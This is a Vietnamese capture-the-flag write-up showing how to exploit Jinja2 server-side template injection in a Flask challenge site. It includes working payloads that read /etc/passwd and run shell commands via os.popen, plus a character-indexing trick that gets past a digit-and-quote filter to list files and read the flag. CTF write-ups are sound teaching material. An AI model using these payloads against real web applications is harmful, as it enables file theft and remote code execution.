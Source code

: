 
# Write-up EHC Hair Salon

* [Source code](https://github.com/5c4ll10n/FPTU-Hacking-CTF-2022/blob/main/Data/app.py)

Challenge này cho ta một trang web với giao diện như hình, có 1 box để input text và 1 nút submit

![image](https://user-images.githubusercontent.com/82231862/176257788-ee5d0482-a574-4cf0-9a51-598ba054eaa9.png)

Xem source code, ta thấy tác giả đã import module flask và sử dụng jinja2 để render ra page


![image](https://user-images.githubusercontent.com/82231862/176261133-3e96b201-903e-48e1-b799-4d563236713e.png)

![image](https://user-images.githubusercontent.com/82231862/176261062-61d6cf64-73d6-4908-a28a-f580cb08dc25.png)

Với web không filter user input, ta có thể dễ dàng inject code vào. Ví dụ:

* `{{2*3}}` sẽ được render ra là 6

Chúng ta còn có thể inject các đoạn code như [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) hoặc [remote code execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution). Ví dụ:

* `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}` trả về nội dung file password
* `{{ cycler.__init__.__globals__.os.popen('id').read() }}` chạy lệnh `id` trong shell

Nhưng trong challenge này, input đã tác giả đã filter đi khá nhiều

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#" 
# filter đi string, số, flag, các char và 1 số lệnh cơ bản. Quan trong nhất là string và số để ta có thể tạo payload
...
       hair_type = request.form['hair'].lower()
       if '{' in hair_type and re.search(regex,hair_type):
            return render_template_string(error_page)
            
       if len(hair_type) > 256:
            return render_template_string(error_page)      
# giới hạn số kí tự tối đa có thể nhập vào
...
```
;
Không thể tạo payload trực tiếp, ta sẽ đi đường vòng bằng cách sử dụng các attribute và method có sẵn của python. Ví dụ:

* `().__doc__` sẽ trả về doc của tuple: `Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.`
* `().__doc__[7]` sẽ trả về kí tự thứ 5 của string trên: `n`
* `().__str__.__name__` sẽ trả về `__str__`

Vì tác giả đã filter số nên ta có thể sử dụng hàm `[..].__len__()` để trả về số phần tử của 1 mảng. Ví dụ:

* `[].__len__()` sẽ trả về số phần tử của mảng rỗng là: `0`
* `[[],[],[],[]].__len__()` sẽ trả về: `4`

Kết hợp 2 cái ta sẽ có được:

* `().__doc__[[[],[],[]].__len__()]` để trả về kí tự `l`
* `().__str__.__name__[[[],[]].__len__()] để trả về kí tự `s`

Chúng ta thử inject payload bằng cách gọi [os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) để chạy lệnh `ls` trong shell

* `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}`  dùng dấu `+` để ghép chuỗi

Ta tìm được file tên là **flag** trong thư mục

![image](https://user-images.githubusercontent.com/82231862/176274512-1734c739-247a-47f2-bb79-28e18e829180.png)

Tiếp theo để mở file đó, ta sẽ dùng [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) để đọc file **flag**. Ta được payload như sau:

`{{get_flashed_messages.__globals__.__builtins__.open(().__format__.__name__[[[],[]].__len__()]+().__le__.__name__[[[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__ge__.__name__[[[],[]].__len__()]).read()}}`

Kết quả: 

![image](https://user-images.githubusercontent.com/82231862/176280207-17d6dfb8-d240-4d4f-9b21-48899a300f4b.png)

### FLAG: FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}

